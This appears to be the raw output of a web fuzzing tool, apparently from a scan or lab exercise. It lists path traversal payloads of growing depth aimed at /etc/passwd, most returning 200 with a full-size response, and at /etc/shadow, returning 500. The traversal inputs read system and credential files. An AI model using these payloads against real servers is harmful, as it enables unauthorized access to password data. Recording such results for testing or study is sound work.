 ```
000000043:   500        5 L      37 W       265 Ch      "../../../../etc/shadow"                                                                                                                                                   
000000019:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                                                                         
000000018:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                                                                            
000000016:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../../../etc/passwd"                                                                                                                  
000000017:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                                                                               
000000013:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../etc/passwd"                                                                                                                           
000000014:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                                                                        
000000011:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../etc/passwd"                                                                                                                                 
000000010:   200        34 L     72 W       1823 Ch     "../../../../../../../../../etc/passwd"                                                                                                                                    
000000012:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../etc/passwd"                                                                                                                              
000000009:   200        34 L     72 W       1823 Ch     "../../../../../../../../etc/passwd"                                                                                                                                       
000000006:   200        34 L     72 W       1823 Ch     "../../../../../etc/passwd"                                                                                                                                                
000000008:   200        34 L     72 W       1823 Ch     "../../../../../../../etc/passwd"                                                                                                                                          
000000005:   200        34 L     72 W       1823 Ch     "../../../../etc/passwd"                                                                                                                                                   
000000047:   500        5 L      37 W       265 Ch      "../../../../../../../../etc/shadow"                                                                                                                                       
000000053:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../../etc/shadow"                                                                                                                     
000000049:   500        5 L      37 W       265 Ch      "../../../../../../../../../../etc/shadow"                                                                                                                                 
000000057:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../../../../../../etc/shadow"                                                                                                         
000000056:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../../../../../etc/shadow"                                                                                                            
000000055:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../../../../etc/shadow"                                                                                                               
000000052:   500        5 L      37 W       265 Ch      "../../../../../../../../../../../../../etc/shadow"                                                                                                                        
```